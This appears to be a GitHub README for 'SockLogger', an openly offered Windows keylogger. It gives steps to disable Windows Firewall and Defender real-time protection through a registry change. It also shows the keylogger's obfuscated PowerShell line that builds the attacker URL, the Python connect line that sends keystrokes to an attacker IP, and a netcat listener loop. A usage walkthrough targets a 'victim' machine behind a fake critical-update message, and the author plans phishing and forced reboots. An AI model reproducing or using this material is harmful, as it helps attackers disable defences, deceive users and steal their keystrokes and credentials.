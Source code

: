 # SockLogger
A creative way to evade 'Real time protection' and 'Windows Firewall' on windows, and obtain victim key-strokes by obfuscate keylogger and using 'nc' on remote machine. While trying looking for a way to make a simple keylogger, thought it would be interesting to make an obfuscate keylogger which will executed upon a running .ps1 with a fake message update about critical problems using powershell ofcourse. Started to make a script which will make 3 things, but first it must run as Administrator privilege;
1. Turn off the Windows Firewall Center.
2. enject a malicious DWORD on the registry which will make the real time protection going down upon a reboot.
3. Disable the real time protection.
4. Save keystrokes on the C:\Windows\System32 directory and obtain it using a python to open a server on the victim machine [Port 2222].
5. When the the SockLogger-Obfuscate.pyw gets execute [ Using .pyw for making it run in the background ], it's send the keystrokes of the victim to a remote machine [ Attacker ] on the other side by using the next command for listening in a loop: 'while true; do nc -lvnp [PORT]; done' [ in my case is PORT 8080 ].

![1](https://user-images.githubusercontent.com/90532971/196167464-4af42a03-e099-4c1f-ac87-d8f5b1b7dd4f.png)


# Usage
I made a test on my local windows 10 x64  machine [ VICTIM ] and it works perfectly.
1. git clone the reposotory.
2. cd SockLogger.
3. open a new terminal, press Ctrl+Shift+R and and terminal will split into two windows.
4. On window number 1 with the help of using a python, open a server to your local machine on the SockLogger folder.
5. On window number 1, use the on-top-command i wrote for a loop over and over.
6. Download the script on the victim machine [ Real time protection 'ON' || Windows Firewall 'ON' ]
7. after run it, wait for powershell window to gone. try typing something and head over to the attacker machine.
8. On window number 2, you should see the keystrokes you made [ On victim machine ]

![fff](https://user-images.githubusercontent.com/90532971/196167908-15377efc-6201-4da1-a5a9-b2ef8ae23fb3.png)

# Updates
This code is just a test while trying for a ways of not only using obfuscation ways, but also using a creative ways of bypass the windows defender/real time protection. still, i want to make a better code which not only contain a phishing message, but also a one that will actually restart the victim's computer, and when it load's again, the script will make another things reffers to protection and bypassing it. 
<h3>Note: Change Machine IP in the .ps1/pyw script under the lines:</h3>
<pre>
${MAc`H`iNe} = ("{5}{2}{0}{3}{1}{4}"-f '://','.0.0.21','tp','10',':','ht') - .ps1 script
</pre>
<pre>
m.connect(("10.0.0.21", 8080)) - .pyw script
</pre>
in my case, the .ps1 was 10.0.0.21 on port 80, and the listener was on port 8080.<br>
please, if you are having any problems, i would like to know. soon i will make a python script which will execute it all in one code. please notice that the .pyw script {python} saved at 'C:\Users\public' directory
